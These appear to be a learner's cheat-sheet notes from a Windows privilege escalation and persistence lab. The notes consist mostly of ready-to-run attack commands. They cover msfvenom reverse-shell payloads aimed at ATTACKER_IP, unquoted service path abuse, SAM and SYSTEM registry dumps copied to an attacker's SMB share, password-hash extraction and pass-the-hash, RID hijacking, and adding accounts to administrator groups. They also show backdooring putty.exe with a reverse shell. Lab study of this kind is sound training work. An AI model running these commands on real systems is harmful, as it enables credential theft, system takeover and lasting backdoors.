 # Unquoted Service Paths
`Get-WmiObject win32_service | select Name, DisplayName, State, PathName`
*(If we find find a Path to an executable with spaces that is unqoted we win)*
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`*Generate the service executable*
`move C:\Users\thm-unpriv\reverse-svc2.exe C:\MyPrograms\Disk.exe` Move the reverseshell service to the first unqoted directory that you find in the path.
# Restart the service
`sc stop "disk sorter enterprise"
 sc start "disk sorter enterprise"`

# SeBackup / SeRestore (Pass the hash through SMB share and Registry dump)
*The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place.*
`reg save hklm\system C:\Users\THMBackup\system.hive`
`reg save hklm\sam C:\Users\THMBackup\sam.hive` *Dump the registry SAM and SYSTEM hashes*
`mkdir share`
`python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`*Create a share between the machines*
`copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`
`copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\` *Copy the files to the share*
`python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`*Use impacket to retrieve the users' password hashes*
`python3.9 /opt/impacket/examples/psexec.py -hashes `*Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges*
# RID Hijacking
`wmic useraccount get name,sid` Check the SID (Remember 500 is admin)
`PsExec64.exe -i -s regedit` *Run regedit as System through PsExec*
**From Regedit, we will go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). Under the corresponding key, there will be a value called F, which holds the user's effective RID. Notice the RID is stored using little-endian notation, so its bytes appear reversed. We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):**


###### Persistence #########
`net localgroup administrators thmuser0 /add`
`net localgroup "Remote Management Users" thmuser1 /add`

# Backdooring files
`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe`
